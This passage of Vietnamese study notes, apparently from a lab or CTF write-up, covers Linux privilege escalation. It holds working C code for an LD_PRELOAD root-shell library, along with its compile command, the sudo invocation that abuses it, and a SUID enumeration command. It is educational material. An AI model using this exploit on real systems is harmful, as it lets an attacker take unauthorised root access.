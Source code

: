     - Đoạn mã giúp leo thang đặc quyền lên `root` với quyền `sudo nano`
        
        ```c
        #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>
        
        void _init() {
        	unsetenv("LD_PRELOAD");
        	setgid(0);
        	setuid(0);
        	system("/bin/bash");
        }
        ```
        
        → Loại bỏ `LD_PRELOAD` 
        
        → Thay đổi **ID người dùng (UID)** và **ID nhóm (GID)** (**`setgid(0)`** và **`setuid(0)`**) của chương trình thành **0**, tức là **root** 
        
        → Thực thi lệnh hệ thống, ở đây là mở một shell Bash (`/bin/bash`)
        
    - Biên dịch mã nguồn thành một thư viện chia sẻ có tên là `shell.so`
        
        ```bash
        gcc -fPIC -shared -o shell.so shell.c -nostartfiles
        ```
        
    - Chạy lệnh với biến môi trường với đường dẫn tới thư viện chia sẻ
        
        ```bash
        sudo LD_PRELOAD=/home/user/ldpreload/shell.so find  
        ```
        
    - Quyền `sudo find` được sử dụng để tìm kiếm các tệp trong hệ thống
        
        ![image.png](/img/image%203.png)
        

## Privilege Escalation: SUID

- **SUID** là một bit đặc biệt trong quyền truy cập của tệp. Khi bit này được thiết lập cho một tệp thực thi, người dùng thực thi tệp đó sẽ có quyền của người sở hữu tệp (thường là **root**), thay vì quyền của người dùng đang chạy lệnh
- Nếu chạy 1  tệp với **SUID** cũng tương đương như chạy tệp đó với tư cách là người sở hữu tệp. 
Điều này có thể dẫn đến việc **leo thang đặc quyền** nếu tệp đó được sở hữu bởi **root**.
- Tìm các tệp có bit **SUID**
    - Sử dụng `find / -type f -perm -04000 -ls 2>/dev/null`
        